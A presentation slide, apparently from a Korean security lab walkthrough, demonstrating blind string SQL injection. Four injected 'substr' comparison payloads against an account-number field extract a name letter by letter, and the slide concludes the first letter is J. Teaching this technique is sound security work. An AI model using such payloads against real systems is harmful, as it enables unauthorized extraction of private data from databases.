

Blind String SQL Injection

그 후 진행한 SQL 질의문
SQL : 101 and substr((select name from pins where cc_number='4321432143214321'),1,1)>‘G';
Result : Account number is valid

SQL : 101 and substr((select name from pins where cc_number='4321432143214321'),1,1)>‘J';
Result : Invalid account number

SQL : 101 and substr((select name from pins where cc_number='4321432143214321'),1,1)>‘H';
Result : Account number is valid

SQL : 101 and substr((select name from pins where cc_number='4321432143214321'),1,1)>‘I';
Result : Account number is valid
따라서 범위는 I보다 뒤면서 J를 넘지 않는 값이므로, 첫글자는 J라는것을 알 수 있다.